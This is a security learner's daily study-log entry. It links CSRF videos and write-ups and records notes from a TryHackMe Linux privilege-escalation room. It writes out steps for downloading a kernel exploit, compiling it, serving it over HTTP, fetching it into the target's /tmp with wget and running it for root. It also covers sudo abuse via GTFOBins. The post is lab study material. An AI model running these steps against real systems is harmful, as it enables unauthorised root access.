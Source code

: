 🎯 Day 9 Task


✅ CSRF Video


https://www.youtube.com/watch?v=iyE9UsBF64w

✅ POC


https://www.youtube.com/watch?v=TGJ4I-F5LhE


https://www.youtube.com/watch?v=YPnejsLPfVk


https://www.youtube.com/watch?v=gBdiKqNPQS8


https://www.youtube.com/watch?v=5jHIUTEdpvI



✅ CSRF Writeup 


https://infosecwriteups.com/understanding-exploiting-cross-site-request-forgery-csrf-vulnerabilities-935952375b71


https://huntr.dev/bounties/f952af13-8042-457d-b8d8-bd338987dc02/


✅ Tweet 


https://twitter.com/rootxyash/status/1480126074994368512


https://twitter.com/mavericknerd/status/1214071332083658757


-----------------------------------------------------------------------------------
🔁 THM Room 


➡ Working on Linux PrivEsc Room


✅ Completed till Task 6 Privilege Escalation Sudo 


https://tryhackme.com/room/linprivesc


For more Info check out my Github Repo


https://github.com/Imran407704/Learn365/


Some Tips :

The Kernel exploit methodology is simple :

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Remember that: a failed kernel exploit can lead to a system crash :P

The Sudo exploit methodology :

1. First check how many programs normal user run with sudo rights -: sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  
3. Paste that Command & You are Root User :)


 Some Keywords : 
 
| local system = my computer                                                                   |
| EXPL_FILE = Name of that Particular Exploit                                                  |
| IP:PORT = VPN IP (If you are on tryhackme) / local system IP:jo port se http server bana tha 
| - (hypen) = hypen ke baad command hai :) 
 
 
My Steps for Kernel Exploit 

1. Exploit ko local system me - wget https://www.exploit-db.com/exploits/EXPL_FILE se download kiya  
2. gcc se complile kiya - gcc 12345.c exploit 
3. local system me http server banaya - sudo python3 -m http.server
4. & Then target machine ke tmp (temp) directory me jaana hai bcoz yehi directory aisi hai jisme hamey write ki permission hai mai ne home directory me bhi check kiya but waha par exploit ko local machine se transfer nhi kar pa rha tha - wget http://IP:PORT/exploit (remember that http use karna hai not https )
5. ./exploit 
ROOT User :)


My Steps for Sudo Exploit 
1. First check how many programs normal user run with sudo rights - sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  

------------------------------------------------------------------------------------------------------------------------------------------------------

#bugbounty #privesc #infosec #learn365
